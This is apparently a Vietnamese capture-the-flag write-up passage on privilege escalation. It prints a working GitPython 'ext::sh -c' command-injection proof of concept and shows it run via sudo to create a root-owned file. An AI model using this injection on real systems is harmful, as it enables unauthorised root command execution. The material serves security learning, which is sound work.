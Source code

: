 ```

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```
Nếu để ý thì đoạn python này sử dụng thư viện `GitPython`:
```
prod@editorial:~$ pip show GitPython
Name: GitPython
Version: 3.1.29
Summary: GitPython is a python library used to interact with Git repositories
Home-page: https://github.com/gitpython-developers/GitPython
Author: Sebastian Thiel, Michael Trier
Author-email: byronimo@gmail.com, mtrier@gmail.com
License: BSD
Location: /usr/local/lib/python3.10/dist-packages
Requires: gitdb
Required-by: 
prod@editorial:~$ 
```
Bằng cách tra google thì tôi tìm được 1 lỗi dẫn đến RCE là [đây](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858):
```
from git import Repo
r = Repo.init('', bare=True)
r.clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])
```
Áp dụng vào trường hợp này:
```
prod@editorial:~$ pwd
/home/prod
prod@editorial:~$ ls
prod@editorial:~$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /home/prod/abc.txt'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c touch% /home/prod/abc.txt new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'
prod@editorial:~$ ls -la
total 32
drwxr-x--- 5 prod prod 4096 Sep 13 08:29 .
drwxr-xr-x 4 root root 4096 Jun  5  2024 ..
-rw-r--r-- 1 root root    0 Sep 13 08:29 abc.txt
lrwxrwxrwx 1 root root    9 Feb  6  2023 .bash_history -> /dev/null
-rw-r--r-- 1 prod prod  220 Jan  6  2022 .bash_logout
```